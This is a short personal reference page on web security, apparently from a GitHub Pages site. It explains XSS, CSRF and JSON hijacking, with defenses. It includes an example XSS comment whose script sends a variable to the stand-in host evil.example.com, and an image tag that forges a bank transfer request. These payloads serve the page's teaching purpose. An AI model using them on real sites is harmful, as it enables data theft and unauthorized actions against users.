 ```yaml
---
layout: article
title: Web Security Reference
---
```


This is my own reference for any security-related advice I find I must keep in
mind when writing web-facing web apps and services.

[This page's source is visible on
GitHub](https://github.com/jennings/jennings.github.io). If I screwed up, send
a pull request and I'll fix it up.


## Protect against XSS

[Cross-Site Scripting](http://en.wikipedia.org/wiki/Cross-site_scripting)
refers to an attacker convincing a vulnerable website to send malicious
JavaScript to a victim. For example, if a comment system allows HTML, an
attacker can submit the following comment:

    This is an evil comment.
    <script>
        jQuery.ajax({
            url: "http://evil.example.com",
            data: someSensitiveVariable
        });
    </script>

Any victim who loads the page containing this comment will send
`someSensitiveVariable` to `evil.example.com`.


## Protect against CSRF

[Cross-Site Request
Forgery](http://en.wikipedia.org/wiki/Cross-site_request_forgery) is when a
malicious site convinces the victim's browser to make a request that performs
some action.

For example, if a bank transaction can be accomplished by making a GET request,
the following image element on a malicious page will do so:

    <img src="https://bank.example.com/api/transfer?to=evilaccount&amount=1000.00">

To protect against this:

* Include authentication tokens with each transaction request (if the attacker has
  access to the authentication token, they are already effectively logged in as that
  user).
* Require a secret, user-specific token with any request that has a side-effect
  (for example, a hidden form field). An attacker will not be able to acquire
  this token.


## Protect against JSON hijacking

When server-side code is returning a JavaScript array, include a `while(1);` at the
beginning of the request:

    Request:
    GET /api/posts

    Response:
    while(1);[{"id":1},{"id":2}]

This protects against third parties adding a `<script>` tag to their own pages
and executing the result. [Phil Haack describes the exploit
here](http://haacked.com/archive/2009/06/25/json-hijacking.aspx/).

Same-origin code can see the textual content of the request and strip the
leading `while(1);`.
